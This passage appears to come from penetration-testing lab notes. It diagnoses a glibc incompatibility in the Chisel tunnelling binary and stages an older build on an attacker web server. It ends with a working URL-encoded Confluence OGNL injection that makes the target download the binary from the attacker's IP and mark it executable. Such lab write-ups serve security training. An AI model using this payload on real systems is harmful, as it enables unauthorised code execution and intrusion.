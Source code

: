 This points towards a version incompatibility
+ When a version of a tool or component is more recent than the operating system it's trying to run on, there's a risk that the operating system will not contain the required technologies that the newer tool is expecting to be able to use
+ In this case, Chisel is expecting to use glibc version 2.32 or 2.34, neither of which can be found on `CONFLUENCE01`

To try to find a solution, let's first check the version information for the Chisel binary we have on Kali, which we are also trying to run on `CONFLUENCE01`:
```
kali@kali:~$ chisel -h

  Usage: chisel [command] [--help]

  Version: 1.8.1-0kali2 (go1.20.7)

  Commands:
    server - runs chisel in server mode
    client - runs chisel in client mode

  Read more:
    https://github.com/jpillora/chisel
```

The version of Chisel that ships with this particular version of Kali is 1.8.1
+ However, there is another detail that's important here
+ It has been compiled with Go version 1.20.7

Some light web surfing reveals that similar messages appear when binaries compiled with Go versions 1.20 and later are run on operating systems that don't have a compatible version of glibc
+ On the Chisel Github page, we find an "official" compiled binary, also version 1.81, is compiled with Go version 1.19. Version 1.19 is one version of Go lower than the version that seems to have introduced this glibc incompatibility
+ With that in mind, we can try using the Go 1.19-compiled Chisel 1.81 binary for Linux on amd64 processors. This is available on the main Chisel Github

We can first download the gzipped binary from Github using **wget**
```
wget https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz
```
+ We can unpack that using **gunzip**, then copy it over to the **/var/www/html/** folder so we can serve it using Apache:
```
gunzip chisel_1.8.1_linux_amd64.gz
```
+ Then can move it to the web server
```
sudo cp ./chisel /var/www/html
```

This will overwrite the copy of Chisel we had already copied into the Apache web root directory
+ We can then just run the same Wget injection as we did before, to force the CONFLUENCE01 server to download the Chisel binary and write it to /tmp/chisel:
```
curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.118.4/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/
```

